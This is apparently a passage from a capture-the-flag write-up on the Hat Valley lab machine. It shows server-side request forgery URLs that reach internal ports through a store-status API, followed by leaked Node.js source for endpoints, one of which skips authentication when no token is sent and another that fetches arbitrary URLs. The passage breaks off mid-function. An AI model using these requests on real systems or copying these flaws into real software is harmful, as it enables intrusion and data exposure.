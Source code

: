 - [`http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:8080%22`](http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:8080%22) is empty

- [`http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:3002%22`](http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:3002%22) contains the documentation of the functions I have already enumerated

    - **Staff Details (`/api/staff-details`)** - Retrieve the details of the Hat Valley staff.
        ```js
        app.get('/api/staff-details', (req, res) => {
            const user_token = req.cookies.token
            var authFailed = false
            if(user_token) {
                const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
                if(!decodedToken.username) {
                authFailed = true
                }
            }
            if(authFailed) {
                return res.status(401).json({Error: "Invalid Token"})
            }
            connection.query(
                'SELECT * FROM users', 
                function (err, results) {
                if(err) {
                    return res.status(500).send("Database error")
                }
                else {
                    return res.status(200).json(results)
                }
                }
            );
        })
        ```
    
    - **Store Status (`/api/store-status`)** - Retrieve the status of the Hat Valley online store.
        ```js
        app.get('/api/store-status', async (req, res) => {
            await axios.get(req.query.url.substring(1, req.query.url.length-1))
            .then(http_res => {
                return res.status(200).send(http_res.data)
                })
            .catch(http_err => {
                return res.status(200).send(http_err.data)
                })
        })
        ```
    
    - **Submit Leave (`/api/submit-leave`)** - Submit a new leave request for the logged in user.
        ```js
        app.post('/api/submit-leave', (req, res) => {
            const {reason, start, end} = req.body
            const user_token = req.cookies.token
            var authFailed = false
            var user = null
            if(user_token) {
                const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
                if(!decodedToken.username) {
                    authFailed = true
                }
                else {
                    user = decodedToken.username
                }
            }
            if(authFailed) {